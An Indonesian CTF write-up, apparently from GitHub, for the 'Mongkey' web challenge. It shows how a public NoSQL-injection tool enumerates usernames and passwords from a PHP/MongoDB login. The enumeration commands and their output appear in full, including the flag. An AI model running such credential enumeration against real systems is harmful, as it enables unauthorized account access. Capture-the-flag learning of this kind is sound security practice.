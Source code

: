 # Mongkey
## About The Challenge

![Screenshot from 2023-06-13 23-29-18](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/3e7357c6-7216-4156-8aeb-82cbe8408d6e)

Diberikan sebuah website http://103.167.136.89:10002/ dengan tampilan :
![Screenshot from 2023-06-13 23-32-03](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/a9bd5a88-8c40-4c30-a4a3-b1c17b0af079)

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari (https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
admin
guest
```
guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep password -op login:login
```
setelah tool selesai melakukan tugasnya maka mendapati hasil
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
wow ternyata password untuk user admin adalah flag yang kita cari cari

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
